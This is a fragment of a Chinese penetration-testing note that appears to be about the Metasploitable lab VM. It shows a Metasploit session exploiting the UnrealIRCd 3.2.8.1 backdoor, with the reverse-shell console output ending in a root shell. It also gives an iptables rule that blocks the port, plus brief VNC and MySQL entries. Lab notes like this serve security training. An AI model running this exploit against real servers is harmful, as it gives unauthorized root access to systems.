 ```
修改各用户的密码
会提示是否设置一个只读界面的密码，选n
#/$ vncpasswd
```



### UnreaIRCD IRC

v3.2.8.1 存在后门，提供root shell连接

```
exploit/unix/irc/unreal_ircd_3281_backdoor UnrealIRCD 3.2.8.1 Backdoor Command Execution
```

端口：6667

利用：

```
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit 

[*] Started reverse TCP double handler on 192.168.247.1:4444 
[*] 192.168.247.250:6667 - Connected to 192.168.247.250:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
[*] 192.168.247.250:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 1lgzlRUNckIyjS2i;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "1lgzlRUNckIyjS2i\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.247.1:4444 -> 192.168.247.250:50365) at 2019-03-07 14:44:39 +0800

whoami
root
```

加固：

```
封堵端口
# iptables -I INPUT -p TCP --destination-port 6667 -j DROP
```



### MySQL-server

提供数据库服务

端口：3306
